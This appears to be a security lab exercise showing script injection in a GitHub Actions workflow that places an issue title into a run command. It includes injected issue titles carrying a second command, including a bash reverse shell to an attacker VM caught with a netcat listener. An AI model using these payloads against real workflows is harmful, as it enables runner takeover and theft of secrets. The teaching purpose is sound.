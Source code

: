 # Exercise 1 - Script injection in the run command
The [Check issue title](.github/workflows/check-issue-title.yml) workflow uses the issue title in the `run` command as follows:
```
title="${{ github.event.issue.title }}"
```
This provides an opportunity for an attacker to exploit the workflow with an issue titled `octocat"; ls -l $GITHUB_WORKSPACE"`. Using this title, the script looks like the following...
```
title="octocat"; ls -l $GITHUB_WORKSPACE"
```

Let's create a new issue with this title and see what happens. We observe that the workflow runs the command `ls -l $GITHUB_WORKSPACE`!  

<img width="1042" alt="Screenshot 2023-08-30 at 7 38 43 PM" src="https://github.com/robandpdx/workflow-script-injection/assets/95243761/e3fa3917-2834-45cc-a297-d25614c3185e">

Ok. Big deal. So we were able to see what is in the workspace directory. Who cares?  
Now let's try something a little more sinister...  
Spin up a linux vm in the cloud that has a public IP address. Login and run `nc -nvlp 1337`. Then open a new issue with the title `octocat"; bash -i >& /dev/tcp/<YOUR-VM-IP-ADDRESS>/1337 0>&1 ; ls -l $GITHUB_WORKSPACE"`  

Now I have a shell on the runner! This is a great "foot in the door" from which I can attemp other exploits, like dumping secrets or cloud credentials to use in other attacks.  